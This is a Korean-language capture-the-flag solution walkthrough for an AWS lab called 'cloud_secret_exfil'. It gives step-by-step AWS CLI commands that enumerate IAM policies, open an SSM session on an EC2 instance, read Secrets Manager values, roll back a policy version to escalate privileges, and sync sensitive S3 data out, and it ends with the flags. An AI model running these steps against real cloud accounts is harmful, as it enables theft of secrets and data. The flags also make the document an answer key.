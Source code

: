 # [cloud_secret_exfil] 모범 답안

## Easy Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile easyroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile easyroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-2 --profile easyroute
```

4. 해당 인라인 정책의 권한을 확인하여 ssm관련 권한이 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-2 --policy-name attacker-user-policy-2 --profile easyroute
```

5. ssm 세션을 시작하기 위해 session-manager plugin을 설치한다.
```bash
curl -o session-manager-plugin.deb https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb

sudo dpkg -i session-manager-plugin.deb

session-manager-plugin
```

6. 접속할 인스턴스의 id를 확인한다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```


7. ssm 세션을 시작하여 ec2내로 접속을 한다.
```bash
aws ssm start-session --target <ec2id> --profile easyroute
```


8. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

9. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```


10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}
